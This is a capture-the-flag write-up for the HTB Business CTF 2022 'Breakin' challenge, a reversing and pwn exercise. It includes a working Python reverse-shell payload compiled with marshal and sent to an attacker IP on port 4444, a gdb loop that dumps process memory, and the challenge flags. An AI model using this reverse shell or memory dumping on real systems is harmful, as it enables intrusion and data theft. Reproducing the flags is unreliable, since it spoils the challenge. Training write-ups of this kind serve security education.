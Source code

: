 # HTB Business CTF 2022 - Breakin

## Challenge

Description with links to downloadable files.

Server: `nc 178.128.162.91 30687`

- [bkd](files/bkd)

### Metadata

- Difficulty: `medium`
- Tags: `reverse`, `linux`, `python`, `pwn`, `memory dump`
- Points: `400`
- Number of solvers: `tbd`

## Solution

### Accessing the web server

Reverse the binary, the `/secret` endpoint is accessible if you present the flag of the `breakout` challenge.

```
http://157.245.33.78:32344/secret?password=HTB{th3_pr0c_f5_15_4_p53ud0_f1l35y5t3m_wh1ch_pr0v1d35_4n_1nt3rf4c3.....} 
```

### Analysing the binary

There is a file upload form and you can execute the uploaded files. If you reverse the binary you can see the the programs are loaded and executed by the python C library.

```
PyMarshal_ReadObjectFromString()
PyImport_ExecCodeModule('Payload')
PyObject_CallMethod('main')
```

References:
- <https://stackoverflow.com/questions/72492221/embedded-python-py-compilestring-pyimport-execcodemodule-why-arent-my-objec>
- <https://awasu.com/weblog/embedding-python/calling-python-code-from-your-program/>

### Gaining code execution on the server

Create a reverse shell using `compile` and `marshal`:

```python
import marshal

IP = '<IP>'
payload = 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("'+IP+'",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

s = '''
def main():
    '''+payload+'''
    return "YES"
'''
print(s)

print(marshal.dumps(compile(s, 'payload', 'exec')).hex())
```

Upload the reverse shell

### Dumping the memory of the process

- Find the `bkd` process id using `ps aux`, install `gdb` and `zip` (`apk add gdb && apk add zip`)
- Dump the `bkd` process memory

```shell
$ grep rw-p /proc/8/maps \
| sed -n 's/^\([0-9a-f]*\)-\([0-9a-f]*\) .*$/\1 \2/p' \
| while read start stop; do \
    gdb --batch --pid 8 -ex \
        "dump memory bkd-$start-$stop.dump 0x$start 0x$stop"; \
done
```

- ZIP the memory files and download it from the website
- <http://134.209.183.143:32140/memory.zip>

### Getting the flag

Search for our current shared encryption key or some hex data

```hexdump
0044fab0  e3 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
0044fac0  00 02 00 00 00 40 00 00  00 73 2c 00 00 00 64 00  |.....@...s,...d.|
0044fad0  64 01 6c 00 5a 00 64 00  64 01 6c 01 5a 01 64 00  |d.l.Z.d.d.l.Z.d.|
0044fae0  64 01 6c 02 5a 02 64 00  64 01 6c 03 5a 03 64 02  |d.l.Z.d.d.l.Z.d.|
0044faf0  64 03 84 00 5a 04 64 01  53 00 29 04 e9 00 00 00  |d...Z.d.S.).....|
0044fb00  00 4e 63 00 00 00 00 00  00 00 00 00 00 00 00 01  |.Nc.............|
0044fb10  00 00 00 08 00 00 00 43  00 00 00 73 46 00 00 00  |.......C...sF...|
0044fb20  74 00 a0 01 a1 00 7d 00  7c 00 a0 02 74 03 a0 04  |t.....}.|...t...|
0044fb30  64 01 a1 01 a1 01 01 00  7c 00 a0 02 74 05 a0 06  |d.......|...t...|
0044fb40  64 02 74 07 74 08 a0 08  a1 00 83 01 64 03 3f 00  |d.t.t.......d.?.|
0044fb50  a1 02 a1 01 01 00 64 04  7c 00 a0 09 a1 00 9b 00  |......d.|.......|
0044fb60  64 05 9d 03 53 00 29 06  4e 5a 44 34 38 35 34 34  |d...S.).NZD48544|
0044fb70  32 37 62 36 34 33 31 36  34 35 66 37 39 33 30 37  |27b6431645f79307|
0044fb80  35 35 66 37 37 33 34 36  63 36 62 35 66 37 34 36  |55f77346c6b5f746|
0044fb90  38 33 33 35 66 37 34 37  32 33 33 33 33 35 66 36  |8335f747233335f6|
0044fba0  36 33 30 37 32 35 66 36  64 33 33 33 66 37 64 da  |630725f6d333f7d.|
0044fbb0  01 48 e9 11 00 00 00 7a  25 4f 75 72 20 63 75 72  |.H.....z%Our cur|
0044fbc0  72 65 6e 74 20 73 68 61  72 65 64 20 65 6e 63 72  |rent shared encr|
0044fbd0  79 70 74 69 6f 6e 20 6b  65 79 20 69 73 20 7a 38  |yption key is z8|
0044fbe0  2e 20 52 65 6d 65 6d 62  65 72 20 74 6f 20 63 68  |. Remember to ch|
0044fbf0  65 63 6b 20 74 68 69 73  20 6c 6f 63 61 74 69 6f  |eck this locatio|
0044fc00  6e 20 72 65 67 75 6c 61  72 6c 79 20 66 6f 72 20  |n regularly for |
0044fc10  75 70 64 61 74 65 73 2e  29 0a da 07 68 61 73 68  |updates.)...hash|
0044fc20  6c 69 62 da 06 73 68 61  32 35 36 da 06 75 70 64  |lib..sha256..upd|
0044fc30  61 74 65 da 08 62 69 6e  61 73 63 69 69 da 09 75  |ate..binascii..u|
0044fc40  6e 68 65 78 6c 69 66 79  da 06 73 74 72 75 63 74  |nhexlify..struct|
0044fc50  da 04 70 61 63 6b da 03  69 6e 74 da 04 74 69 6d  |..pack..int..tim|
0044fc60  65 da 09 68 65 78 64 69  67 65 73 74 29 01 5a 06  |e..hexdigest).Z.|
0044fc70  68 61 73 68 65 72 a9 00  72 0e 00 00 00 fa 06 6b  |hasher..r......k|
0044fc80  65 79 2e 70 79 da 04 6d  61 69 6e 07 00 00 00 73  |ey.py..main....s|
0044fc90  08 00 00 00 08 01 10 01  1e 01 10 01 72 10 00 00  |............r...|
0044fca0  00 29 05 72 04 00 00 00  72 0c 00 00 00 72 09 00  |.).r....r....r..|
0044fcb0  00 00 72 07 00 00 00 72  10 00 00 00 72 0e 00 00  |..r....r....r...|
0044fcc0  00 72 0e 00 00 00 72 0e  00 00 00 72 0f 00 00 00  |.r....r....r....|
0044fcd0  da 08 3c 6d 6f 64 75 6c  65 3e 01 00 00 00 73 0a  |..<module>....s.|
0044fce0  00 00 00 08 00 08 01 08  01 08 01 0c 03 00 30 31  |..............01|
0044fcf0  61 31 30 30 37 64 30 30  37 63 30 30 61 30 30 32  |a1007d007c00a002|
0044fd00  37 34 30 33 61 30 30 34  36 34 30 31 61 31 30 31  |7403a0046401a101|
0044fd10  61 31 30 31 30 31 30 30  37 63 30 30 61 30 30 32  |a10101007c00a002|
0044fd20  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
```

The flag is in hex: `4854427b6431645f7930755f77346c6b5f7468335f747233335f6630725f6d333f7d`

Flag: `HTB{d1d_y0u_w4lk_th3_tr33_f0r_m3?}`

## Files

* [bkd](files/bkd): Challenge binary